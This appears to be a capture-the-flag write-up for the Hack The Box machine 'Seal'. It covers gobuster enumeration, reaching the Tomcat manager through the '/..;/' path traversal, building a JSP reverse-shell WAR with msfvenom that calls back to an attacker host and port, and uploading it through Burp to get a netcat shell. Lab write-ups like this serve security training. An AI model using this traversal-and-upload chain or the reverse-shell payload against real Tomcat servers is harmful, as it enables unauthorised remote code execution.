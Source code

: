 # Enumeration -

![[Pasted image 20210715120057.png]]


### Gobuster -

```bash
root@napster:~/Documents/HTB/Seal# gobuster dir -u https://10.10.10.250/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -k -t 20 -o gobuster.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.250/
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/07/15 12:38:36 Starting gobuster
===============================================================
/images (Status: 302)
/js (Status: 302)
/admin (Status: 302)
/css (Status: 302)
/manager (Status: 302)
/. (Status: 200)
/icon (Status: 302)
/shell (Status: 302)
/reverse (Status: 302)
===============================================================
2021/07/15 12:44:22 Finished
===============================================================
```

We can see manager directory but its 302 on further checking for directories inside `manager` -

```bash
root@napster:~/Documents/HTB/Seal# gobuster dir -u https://10.10.10.250/manager -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -k
 -t 20 -o gobuster_manager.txt                                                                                                                                
===============================================================                                                                                               
Gobuster v3.0.1                                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                               
===============================================================                                                                                               
[+] Url:            https://10.10.10.250/manager                                                                                                              
[+] Threads:        20                                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt                                                                  
[+] Status codes:   200,204,301,302,307,401,403                                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                                            
[+] Timeout:        10s                                                                                                                                       
===============================================================                                                                                               
2021/07/15 12:54:13 Starting gobuster                                                                                                                         
===============================================================                                                                                               
/images (Status: 302)
/html (Status: 403)
/. (Status: 302)
/htmlarea (Status: 403)
/text (Status: 401)
/status (Status: 401)																							<----------->
/htmleditor (Status: 403)
/htmls (Status: 403)
/htmlemail (Status: 403)
/html2pdf (Status: 403)
/html_email (Status: 403)
/htmlMimeMail (Status: 403)
<Snip>
```

We found  `status` on visiting the url -

![[Pasted image 20210715131553.png]]

By inserting the credentials we found earlier we were able to login -

![[Pasted image 20210715131659.png]]

-  `Apache Tomcat/9.0.31 (Ubuntu)`


# Exploitation -

### Some Refrences:

- [DotDotSemicolonRCE](https://thehackingfactory.com/dot-dot-semicolon-rce)
- [HackerOne](https://hackerone.com/reports/1004007)
- [Acunetix](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)


Visiting `/html` -

![[Pasted image 20210715171057.png]]


Using `/...;/html` -

We can access the html page and we can upload war file there -

![[Pasted image 20210715171416.png]]


### Creating .war file using Msfvenom -

```bash
root@napster:~/Documents/HTB/Seal# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.127 LPORT=9001 -f war > napster.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes

root@napster:~/Documents/HTB/Seal# ls
gobuster_admin.txt  gobuster_manager.txt  gobuster.txt  nmap  Seal  napster.war  wfuzz.txt
```


### Uploading via Burp Suite -

- Catching the Upload request via Burp:


![[Pasted image 20210715182013.png]]


- Modifying the request using path traversal to upload the file -


![[Pasted image 20210715181343.png]]

- We can see our payload:


![[Pasted image 20210715181534.png]]

- Starting netcat and simply curling toour payload will give us shell:


![[Pasted image 20210715181732.png]]